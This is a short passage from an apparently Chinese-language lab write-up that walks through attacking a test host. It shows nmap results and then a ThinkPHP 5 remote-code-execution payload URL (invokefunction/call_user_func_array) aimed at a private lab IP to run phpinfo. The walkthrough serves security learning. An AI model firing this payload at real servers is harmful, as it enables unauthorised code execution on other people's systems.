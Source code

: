 ```plain
Nmap done: 1 IP address (1 host up) scanned in 18.02 seconds
```

目标为Linux系统，开放21、22、80、8888等端口。查看80端口的web服务：

[![](assets/1705981930-787689e898506ee04088333fa778817a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143214-d0bfc0f8-b826-1.png)

### 2.2漏洞利用

目标端口使用ThinkPHP框架，查看V5过去爆出来的漏洞

使用远程命令执行漏洞的payload进行测试：

```plain
http://192.168.179.161/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

[![](assets/1705981930-debb03095c56c121260b9310c637fc21.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143232-db5385b8-b826-1.png)
